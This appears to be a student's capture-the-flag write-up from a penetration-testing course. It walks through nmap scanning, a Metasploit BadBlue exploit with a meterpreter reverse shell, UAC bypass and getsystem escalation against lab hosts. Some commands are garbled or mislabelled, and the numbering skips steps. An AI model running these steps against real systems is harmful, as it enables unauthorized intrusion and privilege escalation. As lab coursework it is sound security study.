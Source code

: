 # Assigment 1
For full executive report, see [PWNChallenge2_GabriellaAhn](https://github.com/haein001/CMU_penetration-testing/blob/3355250e0ba7ee6308910f5ad3355f6abd0d73bd/pwnchallenge2/PWNChallenge%232.pdf).

## Step 1

1. Conduct thorough scan of 10.20.160.63 and 10.20.160.112 that are found from inital scan of the scope.
   
    ``
    nmap -A -p- -T5 10.20.160.112
    ``
    
    ``
    nmap -A -p- -T5 10.20.160.63
    ``
    
    Port 8080 was running BadBlue httpd 2.7 from 10.20.160.112. 
    
2. Open Metasploit.

    ``
    msfconsole
    ``
    
3. Since we are going to use _badblue_ to exploit the host, serach Konica. Use the exploit from the search result.

    ``
    search Badblue
    ``
    
    ``
    use exploit/windows/gttp/badblue_passthru
    ``
   
4. Set rhost, rport, and payload.
    
    ``
    set RHOST 10.20.160.112
    ``
    
    ``
    set RPORT 8080
    ``
    
    ``
    set PAYLOAD windows/meterpreter/reverse_tcp
    ``

5. Then, exploit

    ``
    exploit
    ``
    
6. Now you are in the system. Use various command to look for the flag.

    ``
    search -f proof.txt
    ``
    
    But, in Juan's desktop folder, there is no flag. So, we have to escalate the privilege to administer.
    
7. Use bypassuac to escalate the privilege.
- **bypassuac:** is an exploit that are designed to bypass User Access Control.

    ``
    search bypassuac
    ``
    
8. Set the basic information for the exploit.

    ``
    use exploit/windows/local/bypassuac
    ``
    
    ``
    session -i
    ``
    
    ``
    set session 1
    ``
    
    ``
    set payload windows/meterpreter/reverse_tcp
    ``
    
    ``
    exploit
    ``

12. After succesfully logging into the machine, check the username.

    ``
    get uid
    ``
    
    ``
    getsystem
    ``
    
    ``
    get uid
    ``
       
    It will be still Juan, so in order to change to administer you have to use _'getsystem'_ command.
    
13.  Then, use windows command to get the flag.
